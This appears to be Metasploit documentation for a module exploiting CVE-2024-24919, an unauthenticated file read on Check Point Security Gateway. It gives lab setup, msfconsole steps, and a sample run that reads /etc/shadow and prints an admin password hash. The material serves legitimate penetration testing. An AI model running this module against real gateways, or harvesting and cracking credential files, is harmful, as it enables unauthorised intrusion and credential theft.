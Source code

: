 ## Vulnerable Application
This module leverages an unauthenticated arbitrary root file read vulnerability for
Check Point Security Gateway appliances. When the IPSec VPN or Mobile Access blades
are enabled on affected devices, traversal payloads can be used to read any files on
the local file system. Password hashes read from disk may be cracked, potentially
resulting in administrator-level access to the target device. This vulnerability is
tracked as CVE-2024-24919.

## Options

### STORE_LOOT
Whether the read file's contents should be outputted to the console or stored as loot (default: false).

### TARGETFILE
The target file to read (default: /etc/shadow). This should be a full Linux file path. Files containing binary data may not be read accurately.

## Testing
To set up a test environment:
1. Download an affected version of Check Point Security Gateway [here](https://support.checkpoint.com/results/download/124397) (Check_Point_R81.20_T631.iso, SHA1: 42e25f45ab6b1694a97f76ca363d58040802e6d6).
2. Install the ISO within a virtual machine.
3. Browse to the administrator web dashboard on port 443 and complete the first-time setup tasks.
4. On a Windows system, download and install a copy of Check Point SmartConsole, then use it to authenticate to Security Gateway.
5. In SmartConsole, enable and configure the vulnerable Mobile Access or IPSec VPN blades.
6. Publish and push the configuration changes to the device.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETFILE <TARGET_FILE_TO_READ>`
6. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
7. `run`

## Scenarios
### Check Point Security Gateway Linux
```
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > show options 

Module options (auxiliary/gather/checkpoint_gateway_fileread_cve_2024_24919):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT  false            yes       Store the target file as loot
   TARGETFILE  /etc/shadow      yes       The target file to read. This should be a full Linux file path. Files containing binary data may not be read accurately
   TARGETURI   /                yes       The URI path to Check Point Security Gateway
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set RHOSTS 192.168.181.128
RHOSTS => 192.168.181.128
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > check
[+] 192.168.181.128:443 - The target is vulnerable. Arbitrary file read successful!
msf6 auxiliary(gather/checkpoint_gateway_fileread_cve_2024_24919) > run
[*] Running module against 192.168.181.128

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Arbitrary file read successful!
[+] File read succeeded! 
admin:$6$hHJHiZdC2kHPD5HQ$/0dtMC53GSaZpLA/MeChOvJNNE4i9qoKL57Dsl853wF/RRNzJJ6CO5/qBmzCM7KdEUmXanF3J8T50ppLh/Sf2/:14559:0:99999:8:::
monitor:*:19872:0:99999:8:::
root:*:19872:0:99999:7:::
cp_routeevt:*:19872:0:99999:7:::
nobody:*:19872:0:99999:7:::
postfix:*:19872:0:99999:7:::
rpm:!!:19872:0:99999:7:::
shutdown:*:19872:0:99999:7:::
pcap:!!:19872:0:99999:7:::
halt:*:19872:0:99999:7:::
cp_postgres:*:19872:0:99999:7:::
cp_extensions:*:19872:0:99999:7:::
cpep_user:*:19872:0:99999:7:::
vcsa:!!:19872:0:99999:7:::
_nonlocl:*:19872:0:99999:7:::
sshd:*:19872:0:99999:7:::

[*] Auxiliary module execution completed
```

